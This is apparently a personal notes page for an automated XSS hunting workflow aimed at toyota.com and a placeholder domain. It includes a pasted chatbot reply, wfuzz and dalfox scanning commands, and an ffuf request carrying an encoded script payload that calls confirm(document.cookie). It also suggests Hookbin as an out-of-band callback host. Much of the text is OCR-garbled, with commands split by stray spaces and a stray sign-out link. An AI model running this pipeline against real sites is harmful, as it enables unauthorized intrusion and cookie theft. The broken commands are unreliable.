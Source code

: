 Use    `Hookbin.com`   as if it is burp collaporator . 
```unknown
wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/XSS.txt,urlencode http://172.16.1.102/mutillidae/index.php?page=FUZZ
```


`Wafwoof  url `  to detect the   web application firewall  

[You are now signed out. | Socrata](https://opendata.test-socrata.com/signed_out?return_to=%2Fen%2Fadmin%2Fassets) 





Apologies for the oversight. Here's an updated list of commands incorporating the additional tools mentioned in the article:

1. **Subdomain Enumeration:**
    
    - Use tools like `sublist3r`, `subfinder`, `assetfinder`, and `amass` to gather subdomains.
    - Use `gau` and `katana` to fetch known URLs from the Wayback Machine.
    - Use `ffuf` for fuzzing subdomains.
    
    bash
    

- sublist3r -d toyota.com >> Subdomains.txt 
- Subfinder -d toyota. Com >> Subdomains. Txt
- Assetfinder --subs-only toyota. Com >> Subdomains. Txt 
- Amass enum -d toyota. Com >> Subdomains. Txt 
- echo "toyota. Com" | gau --threads 5 >> Endpoints. Txt cat httpx. Txt | katana -jc >> Endpoints. Txt cat Endpoints. Txt | uro >> Endpoints_F.txt  
- ffuf -u "https://FUZZ.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php?auth_status=%3CsCriPt%3Econfirm%28documen.cookie%29%3C%2FScRipt%3E" -w Subdomains.txt -c -v`
    
- **Parameter Fuzzing:**
    
    - Use Arjun or a browser extension like Param Miner for parameter fuzzing.
    
    bash
    
- `arjun -u https://tst2.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php -m GET -w Parameters_Fuzz.txt`
    
- **Automated Scripting:**
    
    - Automate repetitive tasks with custom scripts tailored to specific needs.
    
    bash
    
- `# Custom scripts for automation`
    
- **XSS Automation Tools:**
    
    - Use Dalfox or other XSS automation tools for scanning.
    
    bash
    
- `dalfox file XSS_Ref.txt -o Vulnerable_XSS.txt`
    
- **Web Application Firewall (WAF):**
    
    - Implement and configure a WAF to filter out malicious requests.
    
    bash
    

1. `# Configuration of WAF`
    

These commands integrate the additional tools mentioned in the article along with the previously provided commands. Let me know if you need further assistance or clarification!





# Manual :
Sublist3r -d toyota. Com >> Subdomains. Txt 
Subfinder -d toyota. Com >> Subdomains. Txt
Assetfinder --subs-only toyota. Com >> Subdomains. Txt 
Amass enum -d toyota. Com >> Subdomains. Txt 
echo "toyota. Com" | gau --threads 5 >> Endpoints. Txt cat httpx. Txt | katana -jc >> Endpoints. Txt cat Endpoints. Txt | uro >> Endpoints_F.txt  
ffuf -u " https://FUZZ.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php?auth_status=%3CsCriPt%3Econfirm%28documen.cookie%29%3C%2FScRipt%3E" -w Subdomains. Txt -c -v `
httpx -l subdomains.txt -o httpx.txt
echo "toyota.com" | gau --threads 5 >> Enpoints.txt
cat httpx.txt | katana -jc >> Enpoints.txt
cat Enpoints.txt | uro >> Endpoints_F.txt
cat Endpoints_F.txt | gf xss >> XSS.txt  
`# For getting the endpoints that have parameters which may be vulnerable to XSS`
cat XSS.txt | Gxss -p khXSS -o XSS_Ref.txt
dalfox file XSS_Ref.txt -o Vulnerable_XSS.txt

arjun -u https://tst2.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php -m GET -w Parameters_Fuzz.txt  
`# (-u) for our target && (-m GET) sending requests using the GET method  && (-w) for custom wordlist that`
dirsearch -u https://tst2.dev.targets.com/ -w wordlist.txt -e php,cgi,htm,html,shtm,shtml,js,txt --random-agent   
`# (-u) for the target && (-w) for custom wordlist that would be used with the tool && (-e) different extesions that would be used with the tool  &&  (--random-agent) to change the user agents for requests` 


ffuf -u " https://FUZZ.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php?auth_status=%3CsCriPt%3Econfirm%28documen.cookie%29%3C%2FScRipt%3E" -w subdomains.txt -c -v








# FINAL  LOOK :
```
# Subdomain Enumeration
sublist3r -d $target >> Subdomains.txt
subfinder -d $target >> Subdomains.txt
assetfinder --subs-only $target >> Subdomains.txt
amass enum -d $target >> Subdomains.txt
httpx -l Subdomains.txt -o httpx.txt

# Endpoint Discovery and Vulnerability Scanning
echo $target | gau --threads 5 >> Endpoints.txt     #i made it named gauy in my laptop what i really used is  gauy $target >> Endpoints.txt 
cat httpx.txt | katana -jc >> Endpoints.txt
cat Endpoints.txt | uro >> Endpoints_F.txt
ffuf -u "https://FUZZ.toyota.com/cgi-bin/fr.cfg/php/custom/id-pass.php?auth_status=%3CsCriPt%3Econfirm%28documen.cookie%29%3C%2FScRipt%3E" -w Subdomains.txt -c -v
httpx -l subdomains.txt -o httpx.txt

# XSS Vulnerability Detection
cat Endpoints_F.txt | gf xss >> XSS.txt
cat XSS.txt | gxss -p khXSS -o XSS_Ref.txt
dalfox file XSS_Ref.txt -o Vulnerable_XSS.txt

# Parameter Fuzzing
arjun -u https://tst2.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php -m GET -w Parameters_Fuzz.txt

# Directory Enumeration
dirsearch -u https://tst2.dev.targets.com/ -w wordlist.txt -e php,cgi,htm,html,shtm,shtml,js,txt --random-agent

```
We need  those lists  in the cd ..    ( directories list), ( paramters list)